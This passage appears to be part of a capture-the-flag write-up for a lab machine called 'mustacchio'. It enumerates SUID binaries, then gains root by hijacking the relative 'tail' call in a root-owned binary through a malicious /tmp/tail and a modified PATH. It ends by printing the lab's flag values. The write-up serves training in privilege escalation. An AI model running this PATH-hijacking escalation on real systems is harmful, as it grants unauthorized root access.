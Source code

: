 ```
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```


Found something interesting, we got `/home/joe/live_log`, if we use strings to analyze it. we can find this:

![](Pasted image 20250317185702.png)

This binary runs `tail -f /var/log/nginx/access.log` using a **relative path** (`tail` instead of `/usr/bin/tail`).

We can hijack the `tail` command by creating a malicious script named `tail` in a directory we control and prepend that directory to the `PATH`.

Since this is owned by root, we can escalate our privileges into root by doing this:


```
echo '/bin/bash -p' > /tmp/tail
chmod +x /tmp/tail
export PATH=/tmp:$PATH
/home/joe/live_log
```

We get this:

![](Pasted image 20250317185813.png)

And we got root access, let's read both flags:


```
root@mustacchio:~# cat /home/barry/user.txt
62d77a4d5f97d47c5aa38b3b2651b831
```

```
root@mustacchio:~# cat /root/root.txt
3223581420d906c4dd1a5f9b530393a5
```

![](Pasted image 20250317185906.png)

